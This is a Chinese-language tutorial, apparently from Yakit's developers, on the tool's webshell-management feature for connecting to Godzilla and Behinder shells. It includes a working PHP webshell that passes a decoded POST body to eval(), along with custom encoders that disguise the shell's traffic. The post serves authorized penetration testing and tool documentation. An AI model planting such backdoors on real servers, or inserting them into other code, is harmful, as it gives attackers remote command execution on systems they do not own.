# ALL-IN-ONE 拼图补全计划之：Webshell 管理

日期: 2024-01-19 | 原文: <https://mp.weixin.qq.com/s/Iz43tBB-Ek8ufTLrNi5ZBg>



**前言**

在 Yaklang v1.3.0 版本中，我们更新了一个试验性功能——网站管理，方便各位管理员们管理"自己"的站点。

在管理不是自己的网站前，需要先获取**合法的授权**！

**支持种类**


冰蝎、哥斯拉、蚁剑是目前市面上比较流行的三款Webshell 管理工具，在此先向前辈们致敬。


目前 Yakit 中的网站管理支持管理冰蝎4、哥斯拉类型的 shell，功能涵盖了存活探测、获取基础信息，命令执行，以及部分的文件管理；后续会加上常用的一些功能。

**Yakit中的使用**


**哥斯拉**

连接哥斯拉的shell 比较简单，直接点击试验性功能中的网站管理模块，在右上角点击添加网站，可以看见如下表单，填好对应的字段即可进行连接了。



获取基础信息



后续在 Yakit 中可能着重在通过哥斯拉加载插件实现更多的功能。


**冰蝎3**

冰蝎在 v4.0 版本推出了自定义协议通讯的方式，因此和冰蝎3 的连接方式有些许的不同，我们先以简单的冰蝎3为例，



可以发现有两栏编解码器的选择框，由于冰蝎3的 class payload 中默认了AES/XOR 的加解密的方式，**因此，对于冰蝎3 的连接，我们无需对编解码器进行选择**，只需要填写 URL、脚本类型、密钥后，点击添加即可。



随后可以右键选中刚才添加的 shell ，进行存活检测，发现连接成功



进入shell 查看基本信息




**冰蝎4**

在讲如何连接自定义协议的冰蝎4的shell 前，先来看看一个自定义了远程/本地加解密的冰蝎4 shell的连接过程，为了查看流量方便，我们使用 PHP 的shell 进行演示：



上面的流程图结合下面的流量数据包一起看，更容易理解



用最简单的话来说就是:

**本地加密**就是加密或者编码 Request 的请求包，这个被加密过的请求包 "aaaPayloadbbb" 需要**远程解密**函数去解密或者解码，拿到真正需要执行的 Payload.

**远程加密**就是写在 Payload 中的用于加密或者编码的一个函数，也就是上图中的下面的代码

```php
function encrypt($data){
    return strrev($data);
}
```

由于**远程加密**函数加密的是返回的结果，也就是 Response 的 body，所以最终的结果，还需要**本地解密**函数进行处理。

也就是说是一种交叉的关系，在 Yakit 中没有使用 远程/本地 编解码器的概念，而是使用了 数据包/回显 编解码器的概念，数据包编解码器就是用于设置加解密 request body 和 response body 的，回显编解码器就是用于设置Payload 中的加解密函数部分。下面我们来用 Yakit 编写 数据包/回显编解码器，连接一个自定义的 shell。

数据包编码器 如下：

```go
wsmPacketEncoder = func(raw) {
    packet = "aaa" + string(raw) + "bbb"
    return []byte(packet)
}
```

数据包解码器需要写在 shell 中，也就是下面的 Decrypt 函数：

```xml
<?php
function Decrypt($data){
$data = substr($data, 3, strlen($data) - 6);
return $data;
}
$post = Decrypt(file_get_contents("php://input"));
eval($post);
?>
```

预览如下：



回显编码器

```php
wsmPayloadEncoder = func(reqBody) {
    return `
function encrypt($data){
    return strrev($data);
}
`
}
```

回显解码器

```go
wsmPayloadDecoder = func(reqBody) {
    return string(reqBody).Reverse()
}
```

预览如下：



随后我们就可以在添加网站的表单处，选择我们刚才写好的 编解码器，此处的密钥可以随意填写了



随后就可以正常的使用了，我们特意添加一个代理，用于观察数据包情况



检测是否存活的数据包



获取基础信息的数据包



总结一下就是，在 Yakit 中 **数据包编解码器**就是用于编解码/加解密 Http 数据包的，**回显编解码器**就是用于编解码/加解密回显内容的。

**试验性功能**


由于是试验性功能，后续会对网站管理模块功能进一步的完善，例如可能使用类似 yaml profile 的方式。以及导出为yaklang 的一个库，供大家在代码中也可以方便的进行管理。大家有什么好的想法，也欢迎沟通。

**最后**


本文避重就轻的只是介绍了如何连接相关的shell，其实冰蝎、哥斯拉服务端的一些实现更加值得学习，后续有机会的话也另开篇幅讲讲，大家也可以通过它们的源码进行学习。
